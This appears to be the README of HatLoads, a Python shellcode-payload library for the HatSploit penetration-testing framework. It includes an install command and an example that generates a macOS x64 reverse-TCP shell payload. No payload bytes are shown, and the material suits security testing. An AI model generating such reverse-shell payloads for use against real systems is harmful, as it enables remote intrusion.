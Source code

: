 # HatLoads

<p>
    <a href="https://entysec.netlify.app">
        <img src="https://img.shields.io/badge/developer-EntySec-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatLoads">
        <img src="https://img.shields.io/badge/language-Python-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatLoads/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/HatLoads?color=yellow">
    </a>
</p>

HatLoads is a HatSploit collection of generic payloads designed to provide a wide range of attacks without having to spend time writing new ones.

## Features

* Contains a lot of useful shellcodes in assembly and bytes.
* Support for most common platforms like `macOS`, `Linux`, `Windows`.
* Ability to get custom code and assemble it.

## Installation

```shell
pip3 install git+https://github.com/EntySec/HatLoads
```

## Basic functions

There are all HatLoads basic functions that can be used to generate payloads.

* `get_payload(self, platform, arch, payload, options={}, assemble=True)` - Get assembly shellcode or assembled shellcode.

## Examples

```python3
from hatloads import HatLoads

options = {
    'RHOST': '127.0.0.1',
    'RPORT': 8888
}

hatloads = HatLoads()
shellcode = hatloads.get_payload(
    'macos',
    'x64',
    'shell_reverse_tcp',
    options
)
```
